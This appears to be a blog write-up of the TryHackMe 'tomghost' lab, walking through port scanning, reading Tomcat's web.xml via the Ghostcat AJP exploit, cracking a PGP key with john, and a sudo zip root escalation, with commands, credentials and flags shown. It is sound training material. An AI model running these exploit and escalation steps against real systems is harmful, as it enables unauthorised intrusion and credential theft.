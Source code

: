 ```yaml
---
title: "tomghost - TryHackMe"
author: Ludovic COULON
date: 2020-05-12
hero: ./images/hero.jpeg
excerpt: "Writeup for the tomghost challenge"
---
```


[TryHackMe | tomghost](https://tryhackme.com/room/tomghost)

<div className="Image__Medium">
  <img src="https://i.imgur.com/fR0jVuM.png" alt="blog_image" />
</div>

**Are you able to complete the challenge?**

The machine may a take up to 5 minutes to boot and configure.

### Setup

```bash
nmap -sV -sC -vv 10.10.68.237
```

```bash
Discovered open port 53/tcp on 10.10.68.237
Discovered open port 22/tcp on 10.10.68.237
Discovered open port 8080/tcp on 10.10.68.237
Discovered open port 8009/tcp on 10.10.68.237
```

```bash
22/tcp   open  ssh        syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw

53/tcp   open  tcpwrapped syn-ack

8009/tcp open ajp13 syn-ack Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS

8080/tcp open http syn-ack Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After trying to exploit the Apache Tomcat, I realize that I was wrong about that, so I tried the other port 8009 Apache Jserv I search on github for one exploit and I found this.

[00theway/Ghostcat-CNVD-2020-10487](https://github.com/00theway/Ghostcat-CNVD-2020-10487)

```bash
python3 ajpShooter.py http://10.10.68.237:8080 8009 /WEB-INF/web.xml read
# URL:PORT + Jserv PORT + /WEB-INF/web.xml read
```

<div className="Image__Medium">
  <img src="https://imgur.com/FtZHUNJ.png" alt="blog_image" />
</div>

```bash
skyfuck:8730281lkjlkjdqlksalks
# Let's try to ssh this
```

<div className="Image__Medium">
  <img src="https://imgur.com/fsV6mGi.png" alt="blog_image" />
</div>

### #1 Compromise this machine and obtain user.txt

<div className="Image__Medium">
  <img src="https://imgur.com/XCy6lRK.png" alt="blog_image" />
</div>

```bash
skyfuck@ubuntu:~$ cd /home
skyfuck@ubuntu:/home$ ls
merlin  skyfuck
skyfuck@ubuntu:/home$ cd merlin/
skyfuck@ubuntu:/home/merlin$ ls
user.txt
skyfuck@ubuntu:/home/merlin$ cat user.txt
THM{GhostCat_1s_so_cr4sy}
```

### #2 Escalate privileges and obtain root.txt

If you going back to the skyfuck's home directory you will see the "credential.pgp" "tryhackme.asc"

let's scp them to our machine to crack them.

```bash
➜  TryHackMe scp skyfuck@10.10.68.237:/home/skyfuck/credential.pgp .
skyfuck@10.10.68.237 password:
credential.pgp

➜  TryHackMe scp skyfuck@10.10.68.237:/home/skyfuck/tryhackme.asc .
skyfuck@10.10.68.237 password:
tryhackme.asc
```

For this i'll use gpg2john

```bash
➜  TryHackMe sudo gpg2john tryhackme.asc > bopme

File tryhackme.asc
➜  TryHackMe cat bopme
tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc
```

Now the fun part crack the gpg !

```bash
➜  TryHackMe sudo john bopme --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

"alexandru"        (tryhackme)

1g 0:00:00:00 DONE (2020-05-12 14:27) 10.00g/s 10720p/s 10720c/s 10720C/s chinita..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Nice we have the password

```bash
alexandru
```

Now let's decrypt the pgp file, but first let's import the tryhackme.asc

```bash
➜  TryHackMe gpg --import tryhackme.asc
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

# password => alexandru
```

```bash
➜  TryHackMe gpg --decrypt credential.pgp
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

Nice we have the merlin's ssh password

<div className="Image__Medium">
  <img src="https://imgur.com/zrEzvSs.png" alt="blog_image" />
</div>

Let's root the machine !

[zip | GTFOBins](https://gtfobins.github.io/gtfobins/zip/)

```bash
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
$ id
uid=0(root) gid=0(root) groups=0(root)
$ cd /root/
$ ls
root.txt  ufw
$ cat root.txt
THM{Z1P_1S_FAKE}

```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/kUD3W5P.png" alt="TryhackMeProfile" />
  </a>
</center>
